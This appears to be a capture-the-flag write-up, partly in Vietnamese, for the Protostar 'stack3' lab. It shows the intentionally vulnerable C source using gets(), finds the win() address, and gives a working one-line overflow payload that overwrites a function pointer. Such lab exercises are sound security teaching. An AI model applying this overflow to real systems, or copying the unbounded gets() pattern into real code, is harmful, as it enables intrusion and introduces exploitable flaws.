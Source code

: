 # **stack3**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## Target
printf("calling function pointer, jumping to 0x%08x\n", fp);

## Vulnerability
gets()

## Recon

```
nah~
```

## Exploit
- Tìm địa chỉ hàm win():
```
[0x08048370]> afl~win
0x08048424    1 20           sym.win
```
- Tương tự lợi dụng vulnerabilities của gets(), 64 ký tự bất kỳ + địa chỉ hàm win đảo ngược:
```
user@protostar:/opt/protostar/bin$ python -c "print('a'*64 + '\x24\x84\x04\x08')" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

# References
- 0